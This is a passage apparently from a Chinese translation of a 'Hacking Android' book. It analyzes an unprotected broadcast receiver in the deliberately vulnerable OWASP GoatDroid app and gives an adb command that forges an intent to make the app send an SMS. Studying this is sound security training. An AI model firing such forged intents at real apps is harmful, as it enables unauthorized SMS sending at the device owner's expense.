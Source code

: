 通过深入研究其源代码，我们可以在应用中看到以下功能。

```
public void onReceive(Context arg0, Intent arg1) { 
    context = arg0;
    SmsManager sms = SmsManager.getDefault();
    Bundle bundle = arg1.getExtras(); 
    sms.sendTextMessage(bundle.getString("phoneNumber"),null, bundle.getString("message"), null, null);
    Utils.makeToast(context, Constants.TEXT_MESSAGE_SENT, Toast.LENGTH_LONG); 
}
```

这是接收广播并在接收广播时发送 SMS。这也将接收 SMS 消息和 SMS 必须发送到的号码。此功能需要在其`AndroidManifest.xml`文件中注册`SEND_SMS`权限。在其`AndroidManifest.xml`文件中可以看到以下行，确认此应用已注册`SEND_SMS`权限：

```
<uses-permission android:name="android.permission.SEND_SMS" />
```

### 提示

本书的前言中提到了下载代码包的详细步骤。请看一看。

该书的代码包也托管在 GitHub 上的[https://github.com/PacktPublishing/hacking-android](https://github.com/PacktPublishing/hacking-android) 。我们在[上还提供了丰富的书籍和视频目录中的其他代码包 https://github.com/PacktPublishing/](https://github.com/PacktPublishing/) 。看看他们！

此应用无法检查到底是谁发送了此广播事件。攻击者可以利用这一点，制定特殊意图，如以下命令所示：

```
adb shell am broadcast –a org.owasp.goatdroid.fourgoats.SOCIAL_SMS –n org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats/.broadcastreceivers.SendSMSNowReceiver –es phoneNumber 5556 –es message CRACKED

```

让我们看一下上一个命令的解释。

*   `am broadcast`-发送广播请求
*   `-a`-指定动作元素
*   `-n`-指定组件的名称
*   `-es`–指定字符串类型的额外名称-值对

让我们运行这个命令，看看它是什么样子。下图显示应用未在前台运行，用户未与 GoatDroid 应用交互。
